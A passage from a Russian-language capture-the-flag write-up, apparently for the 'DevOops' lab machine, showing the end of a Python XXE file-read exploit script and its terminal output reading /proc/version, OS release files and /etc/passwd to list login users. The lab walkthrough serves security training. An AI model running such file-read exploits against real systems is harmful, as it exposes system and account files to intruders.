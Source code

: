 ```python
	except Exception as e:
		print('EXCEPTION: ' + str(e))
	
	return fileContents


if __name__ == '__main__':
	if len(sys.argv) == 1:
		interactive()
	elif len(sys.argv) == 2:
		filename = sys.argv[1]
		fileContents = nonInteractive(filename)
		if fileContents:
			print(fileContents, end='\n\n')
	else:
		print(f'Usage: python3 {sys.argv[0]} [FILENAME]')
```

Теперь можно делать примерно следующее:
```text
root@kali:~# python3 devoops_xxe.py
devoops> /proc/version
Linux version 4.13.0-37-generic (buildd@lcy01-amd64-019) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.9)) #42~16.04.1-Ubuntu SMP Wed Mar 7 16:02:25 UTC 2018

devoops> /etc/lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"

devoops> /etc/os-release
NAME="Ubuntu"
VERSION="16.04.4 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.4 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
```

:astonished:

# Захват пользователя. Способ 1
Взглянем еще раз на активных пользователей:
```text
root@kali:~# python3 devoops_xxe.py /etc/passwd | grep -v -e nologin -e sync -e false
root:x:0:0:root:/root:/bin/bash
git:x:1001:1001:git,,,:/home/git:/bin/bash
roosa:x:1002:1002:,,,:/home/roosa:/bin/bash
```
